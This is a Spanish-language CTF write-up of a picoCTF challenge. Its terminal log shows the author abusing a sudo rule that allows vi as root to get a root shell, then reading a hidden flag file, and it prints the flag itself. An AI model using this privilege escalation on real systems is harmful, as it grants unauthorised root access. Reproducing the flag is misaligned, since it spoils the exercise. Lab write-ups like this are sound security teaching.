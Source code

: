 ## Objetivo
```
Can you read files in the root file?

Additional details will be available after launching your challenge instance.
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```
porti_04@DESKTOP-8HT902T:~$ ssh -p 56801 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:56801 ([13.59.203.175]:56801)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:12: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? Yes
Warning: Permanently added '[saturn.picoctf.net]:56801' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password:
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ whoami
picoplayer
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi test

root@challenge:/home/picoplayer# whoami
root
root@challenge:/home/picoplayer# cd /root/
root@challenge:~# ls
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Sep 18 04:06 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# car .flag.txt
bash: car: command not found
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_ad091ce1}
root@challenge:~# Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
porti_04@DESKTOP-8HT902T:~$
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales
El comando **`sudo vi test`** ejecuta el editor de texto `vi` con permisos de superusuario (root) para editar o crear un archivo llamado `test`.

### Desglose:

- **`sudo`**: Ejecuta el comando con privilegios de superusuario, permitiendo modificar archivos que requieran permisos elevados.
- **`vi`**: Inicia el editor de texto `vi`, un editor de texto en modo terminal.
- **`test`**: Es el nombre del archivo que se va a abrir o crear. Si el archivo no existe, se creará uno nuevo llamado `test`.
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias